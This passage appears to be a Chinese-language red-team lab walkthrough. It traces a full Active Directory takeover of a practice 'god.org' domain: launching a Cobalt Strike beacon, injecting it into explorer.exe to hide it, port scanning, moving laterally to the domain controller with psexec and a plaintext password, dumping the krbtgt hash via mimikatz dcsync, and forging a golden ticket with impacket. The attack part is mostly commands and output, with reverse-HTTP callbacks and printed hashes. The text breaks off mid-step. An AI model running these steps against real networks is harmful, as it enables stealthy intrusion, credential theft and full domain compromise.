

***保存位置
	单击保存，用蚂蚁剑上传上去。



***执行木马
```bash
# 打开蚂蚁剑终端，用命令执行程序
C:\phpStudy\WWW\beacon_x64.exe

# 木马执行之后，检查cs客户端右下角的Beacons从0变成了1，表示对方已经上线了
```
***效果


## 横向移动到域
***双击上线的win7傀儡机，会进去到beacons的界面下
	我们已经在之前拿到了一些关键信息，直接做横向，就不需要在cs里面再做一遍。

为了安全，我们将这个木马程序伪装注入一下，如果发现我们可以依托于其他程序的服务而去继续掌控这台电脑
***检查进程
```bash
# 用inject进行伪装，操作在cs界面上线的win7傀儡机的beacons里面执行
# 先检查一下win7运行的进程，看PID即可
# shell tasklist
```
***终端回显内容
```bash
 beacon> shell tasklist
[04/16 11:14:44] [*] Tasked beacon to run: tasklist
[04/16 11:15:18] [+] host called home, sent: 39 bytes
[04/16 11:15:19] [+] received output:

映像名称                       PID 会话名              会话#       内存使用 
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0         24 K
System                           4 Services                   0        720 K
smss.exe                       252 Services                   0      1,056 K
csrss.exe                      336 Services                   0      4,724 K
wininit.exe                    388 Services                   0      4,780 K
csrss.exe                      396 Console                    1     22,332 K
winlogon.exe                   432 Console                    1      7,628 K
services.exe                   488 Services                   0     11,184 K
lsass.exe                      504 Services                   0     11,832 K
lsm.exe                        512 Services                   0      5,844 K
svchost.exe                    628 Services                   0      8,928 K
vmacthlp.exe                   688 Services                   0      3,992 K
svchost.exe                    728 Services                   0      7,716 K
svchost.exe                    784 Services                   0     18,052 K
svchost.exe                    892 Services                   0     12,516 K
svchost.exe                    932 Services                   0     32,092 K
svchost.exe                    276 Services                   0     12,136 K
svchost.exe                   1100 Services                   0     16,588 K
spoolsv.exe                   1216 Services                   0     13,740 K
svchost.exe                   1260 Services                   0     13,860 K
openvpnserv.exe               1428 Services                   0      3,252 K
VGAuthService.exe             1536 Services                   0     10,344 K
vmtoolsd.exe                  1592 Services                   0     19,452 K
WmiPrvSE.exe                  1880 Services                   0     12,900 K
svchost.exe                   1992 Services                   0      5,444 K
dllhost.exe                   1396 Services                   0     11,308 K
msdtc.exe                     2064 Services                   0      7,972 K
svchost.exe                   2540 Services                   0     23,036 K
WmiPrvSE.exe                  2752 Services                   0     13,984 K
svchost.exe                   2468 Services                   0      4,444 K
sppsvc.exe                    1348 Services                   0      6,572 K
SearchIndexer.exe             2416 Services                   0     11,956 K
taskhost.exe                  2860 Console                    1      8,092 K
dwm.exe                       2236 Console                    1    119,988 K
explorer.exe                  3060 Console                    1     72,772 K
vmtoolsd.exe                  1112 Console                    1     16,864 K
Everything.exe                1780 Console                    1     20,576 K
openvpn-gui.exe               1484 Console                    1      5,880 K
phpStudy.exe                  3028 Console                    1     14,424 K
httpd.exe                     2952 Console                    1     12,988 K
conhost.exe                   2948 Console                    1      4,744 K
mysqld.exe                    2680 Console                    1     23,900 K
conhost.exe                   1560 Console                    1      4,784 K
httpd.exe                     1916 Console                    1     18,972 K
cmd.exe                       3748 Console                    1      3,516 K
conhost.exe                   3756 Console                    1      3,200 K
cmd.exe                       3768 Console                    1      3,388 K
1.exe                         3776 Console                    1      7,188 K
cmd.exe                       2288 Console                    1      3,432 K
conhost.exe                   3348 Console                    1      4,772 K
tasklist.exe                  2204 Console                    1      5,400 K

```
	结论：1.exe（我重新制作了一个，东西是一样的）就是我们木马程序，它的进程PID是3776！！！
	里面的这个explorer.exe是Windows系统的桌面进程，不容易发现，可以注入到这里面，它的PID是3060，带会用到
***隐藏注入
```bash
# inject注入
# inject [PID] [架构] [监听器名称（可选）]
# 键入命令之后，会弹出来一个监听器，选中单击choose即可
inject 3060 x64 
```


***回显成功
```bash
# 回显请求成功，并有新的列表生成
[04/16 11:45:40] beacon> inject 3060 x64
[04/16 11:45:47] [*] Tasked beacon to inject windows/beacon_http/reverse_http (192.168.99.130:8081) into 3060 (x64)
[04/16 11:46:19] [+] host called home, sent: 295952 bytes
```

***杀掉1.exe进程
```bash
# 查看进程
shell tasklist
```
***进程
```bash
04/16 11:48:36] beacon> shell tasklist
[04/16 11:48:36] [*] Tasked beacon to run: tasklist
[04/16 11:49:19] [+] host called home, sent: 39 bytes
[04/16 11:49:19] [+] received output:

映像名称                       PID 会话名              会话#       内存使用 
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0         24 K
System                           4 Services                   0        720 K
smss.exe                       252 Services                   0      1,056 K
csrss.exe                      336 Services                   0      4,740 K
wininit.exe                    388 Services                   0      4,780 K
csrss.exe                      396 Console                    1     22,316 K
winlogon.exe                   432 Console                    1      7,628 K
services.exe                   488 Services                   0     11,184 K
lsass.exe                      504 Services                   0     11,832 K
lsm.exe                        512 Services                   0      5,848 K
svchost.exe                    628 Services                   0      8,952 K
vmacthlp.exe                   688 Services                   0      3,992 K
svchost.exe                    728 Services                   0      7,760 K
svchost.exe                    784 Services                   0     17,836 K
svchost.exe                    892 Services                   0     12,400 K
svchost.exe                    932 Services                   0     32,780 K
svchost.exe                    276 Services                   0     14,440 K
svchost.exe                   1100 Services                   0     16,696 K
spoolsv.exe                   1216 Services                   0     13,740 K
svchost.exe                   1260 Services                   0     13,452 K
openvpnserv.exe               1428 Services                   0      3,252 K
VGAuthService.exe             1536 Services                   0     10,344 K
vmtoolsd.exe                  1592 Services                   0     19,572 K
WmiPrvSE.exe                  1880 Services                   0     13,264 K
svchost.exe                   1992 Services                   0      5,444 K
dllhost.exe                   1396 Services                   0     11,316 K
msdtc.exe                     2064 Services                   0      7,972 K
svchost.exe                   2540 Services                   0     10,912 K
svchost.exe                   2468 Services                   0      4,444 K
sppsvc.exe                    1348 Services                   0      7,040 K
SearchIndexer.exe             2416 Services                   0     11,992 K
taskhost.exe                  2860 Console                    1      8,124 K
dwm.exe                       2236 Console                    1    120,364 K
explorer.exe                  3060 Console                    1     74,788 K
vmtoolsd.exe                  1112 Console                    1     16,888 K
Everything.exe                1780 Console                    1     20,576 K
openvpn-gui.exe               1484 Console                    1      5,880 K
phpStudy.exe                  3028 Console                    1     14,424 K
httpd.exe                     2952 Console                    1     12,988 K
conhost.exe                   2948 Console                    1      4,744 K
mysqld.exe                    2680 Console                    1     23,908 K
conhost.exe                   1560 Console                    1      4,784 K
httpd.exe                     1916 Console                    1     18,972 K
cmd.exe                       3748 Console                    1      3,516 K
conhost.exe                   3756 Console                    1      3,200 K
cmd.exe                       3768 Console                    1      3,388 K
1.exe                         3776 Console                    1      7,848 K
slui.exe                      2032 Console                    1      8,424 K
cmd.exe                       3476 Console                    1      3,432 K
conhost.exe                   1812 Console                    1      4,736 K
tasklist.exe                  3324 Console                    1      5,396 K

```

***杀掉1.exe，3776这个进程
```bash
# 杀掉进程
shell kill 3776
```

## 内网端口扫描
***在傀儡机右键，网络探测，进行IP扫描。

```
# 终端回显信息[04/16 12:19:28] beacon> net view
[04/16 12:19:28] [*] Tasked beacon to run net view
[04/16 12:20:22] [+] host called home, sent: 105057 bytes
[04/16 12:20:23] [+] received output:
List of hosts:


[04/16 12:21:23] [+] received output:
 Server Name             IP Address                       Platform  Version  Type   Comment
 -----------             ----------                       --------  -------  ----   -------
 OWA                     192.168.52.138                   500       6.1      PDC    
 ROOT-TVI862UBEH         192.168.52.141                   500       5.2             
 STU1                    192.168.52.143                   500       6.1             


```
	结论：有三台主机，一台138(域控)，一台141
***检查端口开放情况
	依旧同上，右键网络探测，端口扫描。需要等待一会，地址会出来的。选中内网网段52的地址，点击scan扫描。

***回显内容
```bash
# 开放端口情况
[04/16 12:28:04] [*] Tasked beacon to scan ports 1-1024,3389,5000-6000 on 192.168.52.0-192.168.52.255
[04/16 12:28:23] [+] host called home, sent: 93797 bytes
[04/16 12:29:25] [+] received output:
(ARP) Target '192.168.52.143' is alive. 00-0C-29-BE-49-C4
(ARP) Target '192.168.52.138' is alive. 00-0C-29-89-AD-F5
(ARP) Target '192.168.52.141' is alive. 00-0C-29-45-26-14

[04/16 12:30:25] [+] received output:
192.168.52.143:3389
192.168.52.143:139
192.168.52.143:135
192.168.52.143:80
192.168.52.141:777
192.168.52.141:139
192.168.52.141:135
192.168.52.141:21 (220 Microsoft FTP Service)

[04/16 12:31:25] [+] received output:
192.168.52.138:636
192.168.52.138:593
192.168.52.138:464
192.168.52.138:389
192.168.52.138:139
192.168.52.138:135
192.168.52.138:88
192.168.52.138:80
192.168.52.138:53
192.168.52.138:445 (platform: 500 version: 6.1 name: OWA domain: GOD)
192.168.52.141:445 (platform: 500 version: 5.2 name: ROOT-TVI862UBEH domain: GOD)
192.168.52.143:445 (platform: 500 version: 6.1 name: STU1 domain: GOD)
Scanner module is complete

```
	结论：445端口开放，可做SMB横向移动技术
## 创建SMB监听器
***创建smb


## SMB渗透
***单击耳机右边的小方框，找到我们的OWA域控，右键横向移动，单击psexec

***配置peexec模块
	user：填写我们内存提取到的账密，Administrator
	password：查到的密码是hong@2019
	domain（域）：查到的域的信息 GOD
	listener（监听器）：选择我们添加的SMB的
	session（会话）：选择我们的win7的那个就行
点击launch之后，过一会会有138的上线

***效果


	结论：OWA域控已经上线了！！！
## 域内控制利用
***检查域控的权限
```bash
# 在owa的beacons下面执行
shell whoami

```

***终端回显
```bash
[04/16 12:57:34] [*] Tasked beacon to run: whoami
[04/16 12:57:47] [+] host called home, sent: 37 bytes
[04/16 12:57:47] [+] received output:
nt authority\system        
```
	结论：系统级的权限！！！做到这里已经离成功很近啦！加油

## 抓取krbtgt哈希（黄金票据）
***抓取哈希
```
# 域控中的beacon下面执行

```
***回显！！！
```bash
# 非常重要！！！
# 主要检查域ID和krbtgtNTLM哈希的值

[04/16 13:03:09] [*] Tasked beacon to run mimikatz's lsadump::dcsync /domain:god.org /user:krbtgt command
[04/16 13:03:48] [+] host called home, sent: 813681 bytes
[04/16 13:03:49] [+] received output:
[DC] 'god.org' will be the domain
[DC] 'owa.god.org' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 2019/8/24 21:44:23
Object Security ID   : S-1-5-21-2952760202-1353902439-2381784089-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 58e91a5ac358d86513ab224312314061
    ntlm- 0: 58e91a5ac358d86513ab224312314061
    lm  - 0: a151f0fbafab56da67864278a60a75e8

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    Default Salt : GOD.ORGkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a780c2c18b3287e3448562a36dccb2d57d11fd398b55ce2cd9b128308cef74df
      aes128_hmac       (4096) : 2e35721544960f553afcba54252d7b13
      des_cbc_md5       (4096) : 8cc1019b7ccd1319
      rc4_plain         (4096) : 58e91a5ac358d86513ab224312314061

* Primary:Kerberos *
    Default Salt : GOD.ORGkrbtgt
    Credentials
      des_cbc_md5       : 8cc1019b7ccd1319
      rc4_plain         : 58e91a5ac358d86513ab224312314061

* Packages *
    Kerberos-Newer-Keys

* Primary:WDigest *
    01  abb457b021966fc900dc1cebd9c4d188
    02  2d15787683382a038d82e156840ecb77
    03  18ef670658849985036123a064571815
    04  abb457b021966fc900dc1cebd9c4d188
    05  2d15787683382a038d82e156840ecb77
    06  7ae9071dab444ffbc1501482b8da7fcf
    07  abb457b021966fc900dc1cebd9c4d188
    08  e9bf3798e5576c80edb166bfdafdd619
    09  e9bf3798e5576c80edb166bfdafdd619
    10  5f7902c1420805e10f6cd9eec52a8ef2
    11  5703bb42566a5fc66608da6d5f970edd
    12  e9bf3798e5576c80edb166bfdafdd619
    13  7c25bef95327fc5526d56998fd8f0559
    14  5703bb42566a5fc66608da6d5f970edd
    15  218957cc83eb53a3b8bbe1b224dff044
    16  218957cc83eb53a3b8bbe1b224dff044
    17  05a7d647bdbb4585bb7c16fdff9a134d
    18  fd69eb9c15b4d06b66d64bb6654ec88c
    19  016f7e4fb4d3479153aed646b3f68fff
    20  579c3a2eccfb4a5ce12a6bef37168cd1
    21  d6dca44013c12ed0fbb36f0f21a016ac
    22  d6dca44013c12ed0fbb36f0f21a016ac
    23  2eab868d52e16908d3ee3b44edf00a39
    24  0b518bae8d78e8d2961e429d16f361fc
    25  0b518bae8d78e8d2961e429d16f361fc
    26  b2c7b7ae7e52799e7f8d71350f983583
    27  786df62e1c05700ff1bfae6bad92ac76
    28  16464caeecd021b600794f8f36947f86
    29  eb729371fa8cc2a1e43c4c6614f60f3b
```
	结论：拿到最后的钥匙了！！！
```bash
# 精简提取
|**域 SID**|`S-1-5-21-2952760202-1353902439-2381784089`|
|**krbtgt NTLM 哈希**|`58e91a5ac358d86513ab224312314061`|
|**域名**|`god.org`|
```

## 制作黄金票据
```bash
# 在kali系统下面执行如下命令
# 里面的一些god.org，S-1。。。以及58.。的换成自己拿到的值就行
impacket-ticketer -domain god.org -domain-sid S-1-5-21-2952760202-1353902439-2381784089 -nthash 58e91a5ac358d86513ab224312314061 -user hacker Administrator
```

***kali终端回显
```bash
# 如下所示
┌──(kali㉿kali)-[~] └─$ impacket-ticketer -domain god.org -domain-sid S-1-5-21-2952760202-1353902439-2381784089 -nthash 58e91a5ac358d86513ab224312314061 -user hacker Administrator Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
[*] Creating basic skeleton ticket and PAC Infos 
[*] Customizing ticket for god.org/Administrator 
[*] PAC_LOGON_INFO 
[*] PAC_CLIENT_INFO_TYPE [*] EncTicketPart 
[*] EncAsRepPart 
[*] Signing/Encrypting final ticket 
[*] PAC_SERVER_CHECKSUM 
[*] PAC_PRIVSVR_CHECKSUM 
[*] EncTicketPart 
[*] EncASRepPart 
[*] Saving ticket in Administrator.ccache 
┌──(kali㉿kali)-[~] └─$
```

*** 使用黄金票据
```bash
# 在kali里面执行
# 导入票据
